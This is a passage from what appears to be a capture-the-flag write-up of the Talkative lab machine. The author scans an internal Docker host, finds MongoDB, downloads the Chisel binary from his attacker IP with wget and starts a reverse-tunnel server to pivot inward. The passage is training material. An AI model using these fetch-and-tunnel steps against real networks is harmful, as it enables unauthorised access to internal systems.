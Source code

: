 Running again with all ports finds a single port:

    
    
    saul@talkative:/dev/shm$ ./nmap 172.17.0.2 --min-rate 10000 -p-
    
    Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-08-22 20:15 UTC
    Unable to find nmap-services!  Resorting to /etc/services
    Cannot find nmap-payloads. UDP payloads are disabled.
    Nmap scan report for 172.17.0.2
    Host is up (0.00011s latency).
    Not shown: 65534 closed ports
    PORT      STATE SERVICE
    27017/tcp open  unknown
    
    Nmap done: 1 IP address (1 host up) scanned in 14.55 seconds
    

27017 is [commonly used for](https://www.speedguide.net/port.php?port=27017)
MongoDB.

### Rocket Chat Admin

#### Tunnel

The tools to connect to Mongo are not installed on Talkative. I’ll upload
[Chisel](https://github.com/jpillora/chisel) and create a tunnel. After
hosting it on my webserver, I’ll fetch it:

    
    
    saul@talkative:/dev/shm$ wget 10.10.14.6/chisel_1.7.7_linux_amd64
    --2022-08-22 20:18:43--  http://10.10.14.6/chisel_1.7.7_linux_amd64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 8077312 (7.7M) [application/octet-stream]
    Saving to: ‘chisel_1.7.7_linux_amd64’
    
    chisel_1.7.7_linux_ 100%[===================>]   7.70M  7.43MB/s    in 1.0s    
    
    2022-08-22 20:18:44 (7.43 MB/s) - ‘chisel_1.7.7_linux_amd64’ saved [8077312/8077312]
    
    saul@talkative:/dev/shm$ chmod +x ./chisel_1.7.7_linux_amd64 
    

I’ll start `chisel` as a server on my host:

    
    
    oxdf@hacky$ /opt/chisel/chisel_1.7.7_linux_amd64 server -p 8000 --reverse
    2022/08/22 20:20:10 server: Reverse tunnelling enabled
    2022/08/22 20:20:10 server: Fingerprint lBroorqb8hNJ1apYMV0NtLd7Urs/x5mHOi9mmaT0ckY=
    2022/08/22 20:20:10 server: Listening on http://0.0.0.0:8000
    

I’ll use port 8000 since Burp is using the default of 8080. I’ll also give the
`--reverse` flag to say that I want clients to be able to open ports on my
host.

Now I’ll connect from talkative:
